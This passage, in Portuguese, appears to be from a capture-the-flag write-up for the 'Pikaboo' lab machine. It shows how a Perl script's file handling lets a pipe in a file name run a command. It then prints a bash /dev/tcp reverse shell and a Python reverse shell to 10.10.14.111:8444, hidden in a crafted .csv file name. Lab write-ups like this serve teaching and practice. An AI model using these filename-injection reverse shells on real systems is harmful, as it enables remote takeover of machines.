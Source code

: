 ```

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

Ao ler o script, percebemos que ele basicamente faz suas alterações ao captar o nome do arquivo como um argumento, isso exploca o `"$(basename $d) *csv"` no script da cron.

O pesquisar sobre vulnerabilidades em scripts Perl, encontrei este [artigo](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543).

Basicamente ele diz que se o nome do arquivo tiver um pipe `"|"`, o resto do nome do arquivo seré executado como um comando, porém, a cron utiliza `basename`, então não podemos executar qualquer payload, se testarmos em nossa máquina local, veremos que o payload simples de reverse shell é cortado pelo basename.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ basename 'bash -c "/bin/bash -i > /dev/tcp/10.10.14.111/8444 0>&1"'
8444 0>&1"
```

O basename vai considerar só o que vem após o último `"/"`, então precisamos de outra alternativa.

É possível obter um reverse shell através do `python`, sem utilizar `/`, vamos criar um arquivo para upload.


```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ touch "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.111\",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';.csv"
                                                                                                                     
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ ls -la
total 8
drwxr-xr-x  2 hastur hastur 4096 Sep 19 17:14  .
drwxr-xr-x 36 hastur hastur 4096 Sep 19 15:42  ..
-rw-r--r--  1 hastur hastur    0 Sep 19 16:46  hastur
-rw-r--r--  1 hastur hastur    0 Sep 19 17:14 '|python -c '\''import os,pty,socket;s=socket.socket();s.connect(("10.10.14.111",8444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'\'';.csv'
```
